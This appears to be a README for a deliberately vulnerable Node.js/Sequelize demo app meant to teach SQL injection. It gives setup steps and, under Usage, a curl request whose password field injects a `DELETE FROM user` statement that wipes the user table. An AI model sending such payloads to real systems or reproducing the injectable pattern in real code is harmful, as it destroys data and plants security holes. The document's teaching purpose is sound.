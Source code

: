 # SQL Injection with Sequelize

This application is a demonstration prototype just to show how to perform SQLi attack.

#AZERTY
## Install

- Install node modules

```
npm install
```

- Create database

```
sudo -u root mysql -u root < database.sql
```

- Set env vars (in .env file)

```
DB_PASSWORD=p4ssw0rd
```

- Run

```
npm start
```

## Usage

- Create user

```
curl --header "Content-Type: application/json" \
    --request POST \
    --data '{"name":"Frodon Saque","password":"azerty"}' \
    http://localhost:3000/users
```

- Use SQL Injection to drop all users

```
curl --header "Content-Type: application/json" \
    --request POST \
    --data '{"name":"Frodon Saque","password":"azerty'\''); DELETE FROM user; -- "}' \
    http://localhost:3000/users
```

## What still needs to be done

- [ ] Add get users controller
